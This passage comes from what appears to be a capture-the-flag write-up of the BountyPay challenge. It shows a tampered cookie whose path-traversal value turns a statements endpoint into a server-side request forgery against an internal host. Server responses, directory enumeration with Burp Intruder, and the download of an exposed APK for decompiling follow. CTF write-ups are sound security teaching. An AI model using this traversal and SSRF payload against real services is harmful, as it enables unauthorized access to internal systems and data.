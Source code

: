 There's a white list. Okay. I've tried some urls and it seems that only www.google.com and the https://www.bountypay.h1ctf.com/ are whitelisted.

But when this is done through the `/statements` request. I might be able to get to other endpoints, right? I do have an endpoint that always returned 401 and that can only be accessed from within the network. 

So let's change the Cookie to

```json
{"account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/","hash":"de235bffd23df6995ad4e0930baac1a2"}
```

Note that I need to traverse with a depth 2 in the path because `/redirect` is in the root.

This returned:

```json
{
   "url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/\/statements?month=01&year=2020",
   "data":"<html>\n<head><title>404 Not Found<\/title><\/head>\n<body>\n<center><h1>404 Not Found<\/h1><\/center>\n<hr><center>nginx\/1.15.8<\/center>\n<\/body>\n<\/html>"
}
```

Now we have a 404, instead of 401. So I need to enumerate this server. I've used Burp's Intruder for this wirhPayload  Processing to generate the proper payload:

{F862850}

Notice the `?` in the suffix. This is to escape the `/statements?month=01&year=2020` that is appended to the url by the `/statement` endpoint.

I used the same wordlist as before and this returned the following dir that was not a 404:

```json
{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/uploads?\/statements?month=01&year=2020","data":"<html>\n<head><title>Index of \/uploads\/<\/title><\/head>\n<body bgcolor=\"white\">\n<h1>Index of \/uploads\/<\/h1><hr><pre><a href=\"..\/\">..\/<\/a>\n<a href=\"\/uploads\/BountyPay.apk\">BountyPay.apk<\/a>                                        20-Apr-2020 11:26              4043701\n<\/pre><hr><\/body>\n<\/html>\n"}
```

We have an APK here.

# APK token leak

After downloading the APK at https://software.bountypay.h1ctf.com/uploads/BountyPay.apk I opened it with [JADX](https://github.com/skylot/jadx):

```
$ jadx-gui BountyPay.apk
```

As an Android developer myself, I'm pretty familiar with how an APK works so this should be an easy challenge for me.

